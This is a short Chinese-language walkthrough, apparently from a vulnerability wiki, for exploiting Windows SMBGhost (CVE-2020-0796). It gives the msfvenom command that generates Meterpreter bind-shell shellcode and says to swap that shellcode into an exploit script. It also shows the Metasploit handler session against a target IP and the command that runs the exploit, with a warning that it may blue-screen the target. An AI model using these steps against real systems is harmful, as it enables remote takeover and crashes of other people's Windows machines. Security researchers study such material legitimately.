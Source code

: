 msfvenom生成reversed shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py
```

将生成exp.py中的shellcode替换exploit.py中的shellcode

![](http://wikioss.peiqi.tech/vuln/windows-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/windows-23.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> buf 要替换为 USER_PAYLOAD

使用 MSF

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
```

执行脚本即可

```
python3 exploit.py  -ip 192.168.1.110
```

> [!NOTE]
>
> 注意有蓝屏概率

## 参考文章

[Windows SMB Ghost（CVE-2020-0796）漏洞分析](https://www.freebuf.com/vuls/233263.html)